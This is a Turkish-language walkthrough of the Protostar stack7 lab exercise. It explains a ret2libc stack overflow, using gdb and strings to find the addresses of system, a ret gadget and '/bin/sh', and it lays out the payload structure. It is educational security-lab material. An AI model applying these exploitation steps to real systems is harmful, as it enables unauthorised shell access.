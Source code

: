 Bu aşamada kısıtlamalarımızda değişiklik var, return adresimiz bf yerine b ile başyalamaz şeklinde kısıtlanmış. Bu aşamda önceden de söylediğim gibi ret2libc ile shell alamaya çalışacağız. Ret2libc'nin mantığını şu şekilde açıklamaya çalışayım: libc kütüphanesi kocaman bir kütüphane ve bunun içinde system fonksiyonu var. Bu system fonksiyonu ile biz shell komutları çalıştırabiliyoruz. Çalıştıracağımız komutu da argüman olarak veriyoruz. (bkz man system) Bunu stackde yapmamız için gerekli olan ise stack düzenini bunu gerçekleştirecek şekilde düzenlemek. Yani:
```bash
AAAA.... + ebp + return_addr(system fonksiyonunun adresi) + B*4 + 'bin/sh' stringi adresi
```
Şimdi burada ne olacak? Biz return adresini system fonksiyonunun adresi ile ezip /bin/sh stringini de argüman olarak vermiş olacağız ve bu sayede shell alacağız. Ama burada önemli bir nokta var, 4 tane B eklemişiz. Bunun eklememizin sebebi ise system fonksiyonunu fonksiyon çağrısı ile çalıştırmayıp direk zıplayarak çalıştırmamız. Yani normalde biz bir fonksiyona function call ile giderken stack şöyle oluyordu:
```
[düşük adres] ... local değişkenler + ebp + ret_addr + argümanlar ... [yüksek adres]
```
Yani bir return adresi push ediliyordu ve ardından ebp push ediliyordu. Fonksiyonun parametrelerine erişilirlken de ebp + 8 , ebp + 12 şeklinde erişiliyor. Ama bizim durumumuzda biz system fonksiyonunun başlangıcına direk zıplamış olduğumuz için stack'e herhangi bir return adresi push edilmiyo, bu sefer de ebp üzerinden argümanlara erişirken sıkıntı çıkıyor ve iş patlıyor. bu yüzden stack düzenini düzgün oluşturmak için araya sahte bi adres koyuyoruz. İsterseniz burada exit fonksiyonu adresi vs. de koyabilirsiniz tabii. Şimdi system fonksiyonunun adresini bulalım. Programı gdb ile açıp bakalım.
```bash
user@protostar:/opt/protostar/bin$ gdb ./stack7 -q
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) disas main
Dump of assembler code for function main:
0x08048545 <main+0>:	push   %ebp
0x08048546 <main+1>:	mov    %esp,%ebp
0x08048548 <main+3>:	and    $0xfffffff0,%esp
0x0804854b <main+6>:	call   0x80484c4 <getpath>
0x08048550 <main+11>:	mov    %ebp,%esp
0x08048552 <main+13>:	pop    %ebp
0x08048553 <main+14>:	ret    
End of assembler dump.
(gdb) b*0x08048553
Breakpoint 1 at 0x8048553: file stack7/stack7.c, line 32.
(gdb) r
Starting program: /opt/protostar/bin/stack7 
input path please: AAAAAAAAAAAAAAAa
got path AAAAAAAAAAAAAAAa

Breakpoint 1, 0x08048553 in main (argc=134513989, argv=0x1) at stack7/stack7.c:32
32	stack7/stack7.c: No such file or directory.
	in stack7/stack7.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```
system fonksiyonunun adresi `0xb7ecffb0` miş. E biz buna zıplayamayız çünkü b ile başlıyor. O zaman bir önceki çözümde olduğu gibi ret komutunu tekrar çalıştırarak bunu atlatabiliriz. Yani stack içerisini şu iekilde yapmaya çalışacağız:
```bash
AAAA.... + ebp + ret_komutu_adresi + system_adresi + B*4 + '/bin/sh'_adresi
```
Bir önceki aşamadaki gibi getpath fonksiyonundan ret komutunun adresine bakarsak `0x08048544` adresini buluyoruz. Geriye /bin/sh adresini bulmak kaldı. Bunu gdb içinde yapınca garip bir sonuç veriyor o yüzden strings komutu ile bulacağız:
```bash
user@protostar:/opt/protostar/bin$ strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh
 # -a parametresi tüm dosyaya bakmak için
 # -t x paramteresi bulunan stringin offsetini hex olarak yazdırmak için 
```